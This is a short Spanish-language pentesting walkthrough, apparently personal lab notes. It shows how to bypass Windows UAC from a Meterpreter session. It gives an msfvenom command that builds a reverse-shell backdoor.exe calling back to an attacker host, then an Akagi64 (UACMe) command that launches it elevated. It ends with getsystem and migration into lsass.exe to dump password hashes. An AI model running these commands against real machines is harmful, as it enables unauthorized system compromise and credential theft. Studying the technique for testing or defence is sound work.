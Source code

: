 Supongamos que estamos dentro de una sesión de meterpreter de una máquina Windows:
![[Pasted image 20240612161102.png]]

Y queremos ejecutar el comando getsystem, donde veremos que nos da error porque ha saltado el UAC:
![[Pasted image 20240612161106.png]]

Por tanto, el primer paso será generar el payload con msfvenom en formato .exe, para pasárselo a la herramienta que usaremos más tarde:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
```

![[Pasted image 20240612161113.png]]
Y ahora subimos este payload como también la herramienta para hacer el bypass llamada Akagi64.exe, ubicándonos en /temp porque allí tenemos permisos de escritura:
![[Pasted image 20240612161118.png]]

![[Pasted image 20240612161122.png]]

Una vez hecho esto, nos pondremos otra vez en escucha con metasploit para recibir esta nueva conexión:
![[Pasted image 20240612161145.png]]

Y ahora desde la otra sesión de meterpreter, ejecutamos el Akagi64.exe pasándole la backdoor.exe que hemos subido anteriormente:
```bash
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

Recibimos la conexión y ahora sí podemos ejecutar el comando getsystem:
![[Pasted image 20240612161207.png]]

Y también podemos migrarnos al proceso lsass.exe para dumpear hashes:
![[Pasted image 20240612161211.png]]
![[Pasted image 20240612161214.png]]
